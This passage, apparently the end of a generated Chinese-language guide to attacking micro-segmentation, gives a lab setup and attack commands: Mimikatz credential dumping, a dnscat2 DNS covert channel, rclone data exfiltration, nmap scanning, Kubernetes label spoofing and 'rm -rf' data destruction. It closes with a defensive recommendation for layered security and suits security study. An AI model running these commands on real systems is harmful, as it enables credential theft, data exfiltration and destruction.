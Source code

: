 **利用步骤**：
1. 获取目标主机的权限。
2. 使用命令行工具修改或删除数据。
   ```bash
   rm -rf /path/to/sensitive/data
   ```
3. 验证数据是否被篡改。

## 3. 实验环境搭建指南

### 3.1 实验环境需求
- **虚拟化平台**：VMware vSphere、Kubernetes等。
- **微隔离工具**：NSX-T、Calico等。
- **攻击工具**：nmap、Mimikatz、DNSCat2等。

### 3.2 实验环境搭建步骤
1. 部署虚拟化平台（如VMware vSphere或Kubernetes）。
2. 安装并配置微隔离工具（如NSX-T或Calico）。
3. 创建多个虚拟机或容器，并分配不同的标签或策略。
4. 安装攻击工具，准备进行测试。

## 4. 实际命令与工具使用说明

### 4.1 标签欺骗
```bash
kubectl label pod my-pod environment=test --overwrite
```

### 4.2 策略配置错误
```bash
nmap -sV -p 1-65535 192.168.1.0/24
```

### 4.3 跳板攻击
```bash
mimikatz.exe privilege::debug sekurlsa::logonpasswords
```

### 4.4 隐蔽通道
```bash
./dnscat2-server --dns domain=example.com
./dnscat2 --dns domain=example.com
```

### 4.5 数据外泄
```bash
rclone copy /path/to/data remote:backup
```

### 4.6 数据篡改
```bash
rm -rf /path/to/sensitive/data
```

## 5. 总结
微隔离技术虽然能够有效限制攻击者的横向移动，但仍存在多种攻击手法和利用方式。攻击者通过策略绕过、横向移动和数据泄露等手段，可能成功破坏微隔离机制。因此，在实际部署中，除了微隔离技术外，还需结合其他安全措施（如入侵检测、完整性保护等），构建多层次的安全防护体系。

---

*文档生成时间: 2025-03-17 10:27:59*
